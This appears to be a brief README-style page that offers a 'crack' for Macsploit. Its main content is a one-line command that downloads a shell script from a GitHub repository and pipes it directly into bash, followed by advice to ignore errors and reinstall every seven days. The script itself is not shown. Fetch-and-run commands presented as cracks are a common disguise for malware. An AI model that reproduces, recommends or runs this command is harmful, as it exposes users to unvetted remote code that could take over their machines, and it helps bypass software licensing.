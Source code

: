 Run this script to sttart the crack installtion

(
bash -c "$(curl -fsSL https://raw.githubusercontent.com/Kiwxpro/Macsploit-Crack/main/install_macsploit.sh)"
)

Also there may be some errors but ingore you should see macsploit in application folder or launchpad you will need to reinstall every 7 days to keep the crack working might get patched soon dont know.
